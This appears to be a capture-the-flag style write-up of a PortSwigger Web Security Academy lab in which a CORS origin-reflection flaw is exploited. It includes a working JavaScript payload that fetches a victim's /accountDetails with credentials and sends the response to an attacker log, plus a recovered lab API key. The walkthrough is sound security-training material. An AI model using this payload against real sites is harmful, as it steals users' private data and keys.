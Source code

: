 
### CORS vulnerability with basic origin reflection : APPRENTICE

---

> Given credentials `wiener:peter`.

> Logging in with the given credentials and having BURPSUITE PROXY HTTP history on.

![](./screenshots/login.png)

> We see this page.

![](./screenshots/lab1-1.png)

> It has the API key of the `wiener` user, but we need that of the `admin` user.
> Viewing the HTTP history and going through the responses, we see the `GET` request for `/accountDetails`.

![](./screenshots/lab1-2.png)

> We see that the response contains the ACAO header, meaning that the CORS protocol is being used.
> To try and bypass it, we supply the `origin` header in the request and see how the application responds.

![](./screenshots/lab1-3.png)

> We supplied a random `Origin` and we see that the headers respond allowing full access, as well as access to credentials.
> Therefore, we can make a request from anywhere, and the `/accountDetails` page will respond normally.

> Crafting our payload so that it generates a `GET` request to this page and obtains the `apiKey`.

```HTML
<script>
	var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a8e00d7041d8e74815839ec000e003a.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

> We add this payload to the exploit server, store it, and then deliver it to victim.

![](./screenshots/lab1-4.png)

> What this does is that it puts in the `Access Log` the response to requesting the `/AccountDetails` page.
> Assuming that the administrator clicks on this payload, the `req.withCredentials=true` keeps track of the user cookies, meaning that the `/accountDetails` page will be fetched as the admin user.

![](./screenshots/lab1-5.png)

> We see a different IP address, and in it is a request with the name `administrator`.
> We see the API key after: 
```
sWqEsHy84mKKZkDfGRkdXjKgU8VWQVfr
```

> Submitting it in the solution box completes the lab.


#### Summary

> We see that there is private information for each user.
> Trying to access that information from a request originating from a different origin works, and it also allows for the transfer of cookies.
> We craft a payload that creates a request to this page, and if the admin user clicks on it, the cookies are transferred, and it opens the private info of the admin.
> The payload we created appends the entire HTML response as a query parameter, so we are able to get the API key from there.

---
